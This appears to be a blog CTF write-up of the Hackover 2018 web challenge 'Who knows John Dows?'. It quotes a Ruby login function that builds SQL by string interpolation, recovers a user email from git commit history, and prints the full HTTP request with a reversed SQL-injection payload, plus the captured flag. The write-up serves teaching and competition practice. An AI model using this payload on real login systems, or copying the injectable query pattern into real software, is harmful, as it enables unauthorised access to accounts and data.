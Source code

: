 ```yaml
---
layout: post
title: ctf 0x01 / Who knows John Dows? [WEB]
category: ctf
tags: [ctf, writeup, place, ctftime, shellraisers, hackover18, web, john, dows, stalking]
---
```


## Stalking at the wrong side [of query]


> Howdy mate! Just login and hand out the flag, aye! You can find on h18johndoe has all you need!


What's interesting, the `h18johndoe` name points to a file in an external git repository (on github): [user_repo.rb](https://github.com/h18johndoe/user_repository/blob/master/user_repo.rb)

<!--more-->

The interesting part of that code is:

```ruby
 def login(identification, password)
    hashed_input_password = hash(password)
    query = "select id, phone, email from users where email = '#{identification}' and password_digest = '#{hashed_input_password}' limit 1"
    puts "SQL executing: '#{query}'"
    @database[query].first if user_exists?(identification)
  end
```

We can also see that the *hashing* function is a simple reverse func:

```ruby
def hash(password)
    password.reverse
  end
```

Sooooo...

We can see that along the `identification` field, the `password` field is posted (note that it's not in the original request - you have to add it by yourself as there is no *password* input).
Furthermore, the password field is - as we've just observed - *hashed* by reversing and what we post is inserted into the SQL query. We've got an `SQL injection`!

We can't inject the identification field, though (as a check is performed to see whether the user exists), so we use the `hashed_input_password` part. We still need either the email or phone number as an identification. How can we obtain them? Well, from the GIT log after cloning the repo (thanks [tezeb](https://github.com/tezeb) for reminding me about this!):

```
$ git clone https://github.com/h18johndoe/user_repository
Cloning into 'user_repository'...
remote: Enumerating objects: 12, done.
remote: Counting objects: 100% (12/12), done.
remote: Compressing objects: 100% (5/5), done.
remote: Total 12 (delta 2), reused 12 (delta 2), pack-reused 0
Unpacking objects: 100% (12/12), done.
$ cd user_repository/
$ git log | head -5
commit b26aed283d56c65845b02957a11d90bc091ac35a
Author: John Doe <angelo_muh@yahoo.org>
Date:   Tue Oct 2 23:55:57 2018 +0200

    Add login method
(...)
commit 3ec70acbf846037458c93e8d0cb79a6daac98515
Author: John Doe <john_doe@notes.h18>
Date:   Tue Oct 2 23:01:30 2018 +0200

    Add user repo class and file
```

Thus, as we know what the *hashing* function does, we just supply the email and *hash* (reverse) the query to get in:

```
POST /login HTTP/1.1
Host: yo-know-john-dow.ctf.hackover.de:4567
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://yo-know-john-dow.ctf.hackover.de:4567/login
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Cookie:  (...)
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

identification=john_doe@notes.h18&password=-- 1 timil sresu morf enohp,2,1 tceles noinu 1=1 ro '
```
```html
<!doctype html>
<html>
<title>Yah know john dow?</title>
<!-- challange by ellcs -->
<meta name="viewport" content="width=device-width, initial-scale=1">
<link rel="stylesheet" href="w3.css">
<script type="text/javascript" src="/js/script.js"></script>
<body>
<div class="w3-container w3-bar w3-indigo"> <h1>D0 Y0u kn0W j0Hn D0w?</h1> </div>
<div class="w3-main">
  <div class="w3-bar w3-blue">
      <div class="w3-bar-item w3-green w3-mobile">Logged in as: 0157 1337 42</div>
      <a href="/logout" class="w3-bar-item w3-button w3-mobile">Logout</a>
  </div>
  <div class="w3-container w3-center">
    HERE IS YO FLAG:

    hackover18{I_KN0W_H4W_70_STALK_2018}
</div>
</div>
</body>
</html>
```

At this point we actually got frustrated since the flag didn't get accepted; we tried to go through the database (via `sqlite_master`) while pinging the organizers about the problem.

We didn't find anything in the DB and it was just a technical issue, after all - the organizers quickly fixed it, we submitted the flag and got the points :-)

**Flag:** `hackover18{I_KN0W_H4W_70_STALK_2018}`

Cheers!